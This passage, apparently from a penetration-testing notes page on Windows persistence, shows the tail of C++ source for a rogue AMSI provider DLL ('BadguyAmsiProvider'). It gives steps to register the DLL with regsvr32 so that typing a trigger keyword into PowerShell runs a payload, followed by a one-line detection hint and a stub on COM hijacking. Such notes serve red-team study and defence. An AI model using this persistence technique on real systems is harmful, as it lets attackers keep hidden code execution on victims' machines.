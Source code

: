 ```C++
	return S_OK;
}

STDAPI DllUnregisterServer()
{
	wchar_t clsidString[40];
	if (StringFromGUID2(__uuidof(BadguyAmsiProvider), clsidString, ARRAYSIZE(clsidString)) == 0)
	{
		return E_UNEXPECTED;
	}

	// Unregister this CLSID as an anti-malware provider.
	wchar_t keyPath[200];
	HRESULT hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Microsoft\\AMSI\\Providers\\%ls", clsidString);
	if (FAILED(hr)) return hr;
	LONG status = RegDeleteTree(HKEY_LOCAL_MACHINE, keyPath);
	if (status != NO_ERROR && status != ERROR_PATH_NOT_FOUND) return HRESULT_FROM_WIN32(status);

	// Unregister this CLSID as a COM server.
	hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Classes\\CLSID\\%ls", clsidString);
	if (FAILED(hr)) return hr;
	status = RegDeleteTree(HKEY_LOCAL_MACHINE, keyPath);
	if (status != NO_ERROR && status != ERROR_PATH_NOT_FOUND) return HRESULT_FROM_WIN32(status);

	return S_OK;
}
#pragma endregion
```


Compile this C++ code to **your_compiled_ AMSI_provider.dll**
The AMSI Provider can be registered in the system with the *regsvr32* utility.
```powershell
regsvr32 your_compiled_ AMSI_provider.dll

```
When the keyword(**badguy** in our case) is passed to a PowerShell console, our payload will be executed.

*refer: https://pentestlab.blog/2021/05/17/persistence-amsi/*

#### Detection:

User can see strange AMSI Provider in reg.

</br></br>

##  COM Hijacking


*refer: https://pentestlab.blog/2020/05/20/persistence-com-hijacking/*

</br>

# More methods

*refer: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md*



